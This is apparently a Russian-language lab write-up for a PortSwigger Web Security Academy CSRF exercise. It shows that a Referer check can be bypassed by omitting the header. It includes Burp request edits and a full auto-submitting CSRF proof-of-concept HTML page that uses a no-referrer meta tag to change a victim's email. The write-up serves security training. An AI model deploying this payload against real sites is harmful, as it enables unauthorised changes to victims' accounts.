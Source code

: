 логинимся под `wiener:peter`

И изменим почту на `change@me.com`

Найдем в `Proxy` -> `HTTP history` данный запрос на смену почтового ящика
```
POST /my-account/change-email
...
Referer: https://0a5a0011032e342c80bbda4300f900f2.web-security-academy.net/my-account?id=wiener
...
email=change%40me.com
```

и отправим данный запрос в `Repeater`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/11.%20CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/pics%20for%20walkthrough/1.png)

Обратим внимание на поле `Referer`

Если вдруг мы укажем невалидный `Referer`, к примеру заменим домен с 
```
Referer: https://0a5a0011032e342c80bbda4300f900f2.web-security-academy.net/my-account?id=wiener
```
на 
```
Referer: https://0a5a0011032e342c80bbda4300f900f2.web-security-academy.com/my-account?id=wiener
```
то увидим 400 ошибку 
`"Invalid referer header"`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/11.%20CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/pics%20for%20walkthrough/2.png)

а Вот если вообще удалить из запроса данное поле, то увидим, что запрос выполняется успешно
```
POST /my-account/change-email
...
email=change2%40me.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/11.%20CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/pics%20for%20walkthrough/3.png)

Нажмем ПКМ -> Engagement tools -> Generate CSRF PoC

Получим следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5a0011032e342c80bbda4300f900f2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change2&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

добавим в код 
```
<meta name="referrer" content="no-referrer">
```
чтобы исключали проверку `referer`

итого получив следующий PoC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://0a5a0011032e342c80bbda4300f900f2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="change3&#64;me&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Нажмем `Store` и `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/11.%20CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/pics%20for%20walkthrough/4.png)
